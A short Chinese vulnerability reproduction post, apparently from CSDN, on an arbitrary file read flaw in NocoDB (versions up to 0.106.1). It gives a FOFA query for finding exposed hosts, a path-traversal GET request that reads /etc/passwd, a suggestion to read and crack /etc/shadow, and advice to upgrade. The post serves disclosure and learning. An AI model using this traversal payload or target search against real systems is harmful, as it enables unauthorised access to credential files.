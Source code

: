 # 原创
：  漏洞复现-

# 漏洞复现-

> 
<h6>如果文章对你有帮助，欢迎关注、点赞、收藏一键三连支持以下哦！<br/> 想要一起交流学习的小伙伴可以加zkaq222（备注CSDN，不备注通不过哦）进入学习，共同学习进步</h6>


## 免责声明：

文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担！

### 一：漏洞描述

NocoDB 是 Airtable 的开源替代方案，可以“一键”将 MySQL、PostgreSQL、SQL Server、SQLite 和 MariaDB 转换为智能电子表格。此软件存在任意文件读取漏洞。

### 二：漏洞影响版本

version&lt;=0.106.1

### 三：网络空间测绘查询

fofa:<br/> icon_hash="-2017596142"<img alt="" height="242" src="https://img-blog.csdnimg.cn/fffcd810386446b8b5d2552b5d54715f.jpeg" width="690"/>

### 四：漏洞复现

poc

```
GET /download/..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1


```

### 五：漏洞利用

可通过读取/etc/shadow读取到加密后的用户名密码，解密后进行后续测试工作

### 六：修复建议

及时更新至最新版本

```
原文地址： https://www.freebuf.com/articles/web/379844.html
```

声明：⽂中所涉及的技术、思路和⼯具仅供以安全为⽬的的学习交流使⽤，任何⼈不得将其⽤于⾮法⽤途以及盈利等⽬的，否则后果⾃⾏承担。**所有渗透都需获取授权**！

**学习更多渗透技能！体验靶场实战练习**
